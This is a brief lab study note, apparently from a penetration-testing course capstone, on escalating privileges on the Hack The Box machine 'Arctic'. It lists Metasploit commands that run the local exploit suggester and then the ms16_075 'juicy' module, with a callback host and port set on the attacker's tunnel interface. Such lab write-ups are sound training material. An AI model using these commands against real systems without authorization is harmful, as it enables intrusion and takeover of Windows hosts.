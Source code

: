 - Got initial Foothold [[PNPT/WPE/Capstones/Arctic - HTB/Initial Foothold|Initial Foothold]]

# Enumeration
---
- Use metasploit's `multi/recon/local_exploit_suggester`
	- ![[Pasted image 20250419162108.png]]

# Exploitation
---
- Using `juicy`
	- `use exploit/windows/local/ms16_075_reflection_juicy`
	- `set lhost tun0`
	- `set lport 9002`
	- `set session 3`
	- `run`
- ![[Pasted image 20250419162212.png]]
- ![[Pasted image 20250419162221.png]]
- 